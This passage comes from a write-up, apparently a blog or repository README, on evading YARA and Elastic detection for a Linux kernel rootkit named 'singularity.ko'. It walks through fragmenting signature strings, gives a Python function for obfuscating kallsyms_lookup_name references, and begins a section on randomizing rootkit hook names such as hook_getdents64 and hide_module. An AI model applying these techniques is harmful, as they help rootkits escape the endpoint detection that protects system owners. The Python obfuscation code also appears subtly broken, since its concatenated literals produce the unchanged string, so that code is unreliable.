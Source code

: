 The binary's .rodata section stores this as a single contiguous string. However, the key insight: YARA rules scan the binary, not the source code. By fragmenting strings in source but allowing compiler concatenation, we break YARA pattern matching while maintaining functionality.

Verification

```bash
# Check for GPL string
strings obfuscated/singularity.ko | grep -i "GPL"
# No results

# But the module still loads correctly
modinfo obfuscated/singularity.ko | grep license
# license:        GPL

# The string exists in .modinfo section but fragmented
objdump -s obfuscated/singularity.ko -j .modinfo | grep -A2 license
```

#### Kallsyms Obfuscation

Similarly, we obfuscate kallsyms_lookup_name references:

```python
def _obfuscate_kallsyms_strings(self, content: str) -> str:
    """
    Obfuscates kallsyms_lookup_name references
    that are detected by Elastic
    """
    # Obfuscate kallsyms_lookup_name_t
    content = re.sub(
        r'kallsyms_lookup_name_t',
        'k' 'a' 'l' 'l' 's' 'y' 'm' 's' '_' 'l' 'o' 'o' 'k' 'u' 'p' '_' 'n' 'a' 'm' 'e' '_' 't',
        content
    )
    
    # Obfuscate kallsyms references
    content = re.sub(
        r'kallsyms_lookup_name',
        'k' 'a' 'l' 'l' 's' 'y' 'm' 's' '_' 'l' 'o' 'o' 'k' 'u' 'p' '_' 'n' 'a' 'm' 'e',
        content
    )
    
    return content
```

# Evasion Technique 2: Symbol Name Randomization

### The Problem

Rootkits typically use predictable naming patterns that become signatures:

```c
hook_getdents64
fake_tcp4_seq_show
hide_module
orig_kill
hacked_open
hooked_read
```

